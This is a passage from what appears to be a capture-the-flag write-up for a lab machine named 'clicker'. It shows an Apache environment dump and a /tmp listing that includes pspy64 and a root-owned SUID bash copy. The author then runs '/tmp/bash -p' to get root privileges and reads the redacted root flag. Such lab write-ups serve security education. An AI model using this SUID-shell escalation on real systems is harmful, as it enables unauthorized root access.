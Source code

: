 ```bash
  <environment>
    <APACHE_RUN_DIR>/var/run/apache2</APACHE_RUN_DIR>
    <SYSTEMD_EXEC_PID>1177</SYSTEMD_EXEC_PID>
    <APACHE_PID_FILE>/var/run/apache2/apache2.pid</APACHE_PID_FILE>
    <JOURNAL_STREAM>8:27403</JOURNAL_STREAM>
    <PATH>/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin</PATH>
    <INVOCATION_ID>9cb4c86dee6a4141bc7a5748e246cd7c</INVOCATION_ID>
    <APACHE_LOCK_DIR>/var/lock/apache2</APACHE_LOCK_DIR>
    <LANG>C</LANG>
    <APACHE_RUN_USER>www-data</APACHE_RUN_USER>
    <APACHE_RUN_GROUP>www-data</APACHE_RUN_GROUP>
    <APACHE_LOG_DIR>/var/log/apache2</APACHE_LOG_DIR>
    <PWD>/</PWD>
  </environment>
</data>

jack@clicker:~$ ls -ltr /tmp/
total 4428
drwx------ 3 root root    4096 Nov 12 14:06 systemd-private-ddfee650504443739a881aec6b0bed50-systemd-timesyncd.service-o5SWls
drwx------ 3 root root    4096 Nov 12 14:06 systemd-private-ddfee650504443739a881aec6b0bed50-systemd-resolved.service-0r7Lbs
drwx------ 3 root root    4096 Nov 12 14:06 systemd-private-ddfee650504443739a881aec6b0bed50-systemd-logind.service-nPNgJx
drwx------ 3 root root    4096 Nov 12 14:06 systemd-private-ddfee650504443739a881aec6b0bed50-ModemManager.service-5ppJhq
drwx------ 2 root root    4096 Nov 12 14:07 vmware-root_788-2957517930
drwx------ 3 root root    4096 Nov 12 14:08 systemd-private-ddfee650504443739a881aec6b0bed50-apache2.service-wXSKSb
-rw-rw-r-- 1 jack jack    2657 Nov 12 16:39 writable
-rwxrwx--- 1 jack jack 3104768 Nov 12 16:41 pspy64
-rwxrwxr-x 1 jack jack      50 Nov 12 18:44 test.sh
-rwsr-xr-x 1 root root 1396520 Nov 12 18:44 bash
```

I used the copied file to become root.

```
jack@clicker:~$ /tmp/bash -p

bash-5.1# id
uid=1000(jack) gid=1000(jack) euid=0(root) groups=1000(jack),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)

bash-5.1# cat /root/root.txt
REDACTED
```